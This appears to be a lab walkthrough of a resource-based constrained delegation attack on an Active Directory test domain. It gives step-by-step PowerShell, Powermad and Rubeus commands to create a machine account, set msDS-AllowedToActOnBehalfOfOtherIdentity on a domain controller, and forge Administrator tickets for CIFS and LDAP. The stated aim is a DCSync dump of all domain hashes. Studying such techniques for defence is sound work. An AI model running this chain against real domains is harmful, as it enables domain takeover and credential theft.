 # Resource Based Constrained Delegation

## Lab Setup

⇒ So for us to perform resource based constrained delegation attack a **`user/machine`** must have **`GenericWrite`** to another machine . So we will be setting GenericWrite on vDC01 for the user Naqi using ADUC [ Active Directory Users and Computer ] :

![Resource%20Based%20Constrained%20Delegation/Untitled.png](Resource%20Based%20Constrained%20Delegation/Untitled.png)

![Resource%20Based%20Constrained%20Delegation/Untitled%201.png](Resource%20Based%20Constrained%20Delegation/Untitled%201.png)

---

## Performing the Attack

⇒ So for a person to perform this attack he/she must have **`Write`** on **`msDS-AllowedToActOnBehalfOfOtherIdentity`** attribute to a machine.

- So first we will create a new computer object **`ENOX01`** in Active Directory using PowerMad
- Then we leverage **`WRITE`** privilege on the **`vDC01`** computer object and update **`msDS-AllowedToActOnBehalfOfOtherIdentity`** attribute to contain a security descriptor of **`ENOX01`** machine.
    - In simple terms this means **`vDC01`** will allow the computer resource **`ENOX01`** to impersonate any domain user if they want to access any service on **`vDC01`**
- We use Rubeus **s4u** extension to impersonate as **Administrator** user and request an ticket to **cifs** service.
- Then finally we impersonate **Administrator** user and request **LDAP** Service ticket to perform **DCSync** attack using **mimikatz**.

---

### i) Creating Computer Object

- So first we will be creating computer object named ENOX01 using [Powermad](https://github.com/Kevin-Robertson/Powermad) and note the SID

```powershell
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount ENOX01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![Resource%20Based%20Constrained%20Delegation/Untitled%202.png](Resource%20Based%20Constrained%20Delegation/Untitled%202.png)

![Resource%20Based%20Constrained%20Delegation/Untitled%203.png](Resource%20Based%20Constrained%20Delegation/Untitled%203.png)

SID : **`S-1-5-21-1710056623-765944083-1957563412-1117`**

---

### ii) Setting **msDS-AllowedToActOnBehalfOfOtherIdentity attribute**

- Next we will be getting the Security Descriptor of **`ENOX01`** and set **`msds-allowedtoactonbehalfofotheridentity`** attribute for **`vDC01`**

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1710056623-765944083-1957563412-1117)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer vDC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![Resource%20Based%20Constrained%20Delegation/Untitled%204.png](Resource%20Based%20Constrained%20Delegation/Untitled%204.png)

- Lets confirm we have set it using the following powershell command :

```powershell
Get-NetComputer vDC01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

![Resource%20Based%20Constrained%20Delegation/Untitled%205.png](Resource%20Based%20Constrained%20Delegation/Untitled%205.png)

---

### iii) Getting Tickets and dumping hashes

⇒ So first we will get rc4 hash of the ENOX01 machine password using [Rubeus](https://github.com/GhostPack/Rubeus) :

```powershell
.\Rubeus.exe hash /password:123456 /user:ENOX01 /domain:endark.local
```

![Resource%20Based%20Constrained%20Delegation/Untitled%206.png](Resource%20Based%20Constrained%20Delegation/Untitled%206.png)

`32ED87BDB5FDC5E9CBA88547376818D4`

⇒ Now we will impersonate as Administrator user using **`s4u`** extension in **Rubeus** and request ticket to **`cifs`** service :

```powershell
.\Rubeus.exe s4u /user:ENOX01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:cifs/vdc01.endark.local /outfile:dc.kirbi /ptt
```

![Resource%20Based%20Constrained%20Delegation/Untitled%207.png](Resource%20Based%20Constrained%20Delegation/Untitled%207.png)

![Resource%20Based%20Constrained%20Delegation/Untitled%208.png](Resource%20Based%20Constrained%20Delegation/Untitled%208.png)

⇒ We will now request an ticket to **`ldap`** service instead so we can perform [dcsync attack](https://endark.gitbook.io/kb/windows/lab-attacks/using-dcsync-attack-to-steal-user-hashes-in-a-domain) using [mimikatz](https://github.com/gentilkiwi/mimikatz) and retrieve all the hashes in the domain for persistence :

```powershell
.\Rubeus.exe s4u /user:ENOX01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:ldap/vdc01.endark.local /outfile:ldap.kirbi
```

![Resource%20Based%20Constrained%20Delegation/Untitled%209.png](Resource%20Based%20Constrained%20Delegation/Untitled%209.png)

![Resource%20Based%20Constrained%20Delegation/Untitled%2010.png](Resource%20Based%20Constrained%20Delegation/Untitled%2010.png)

---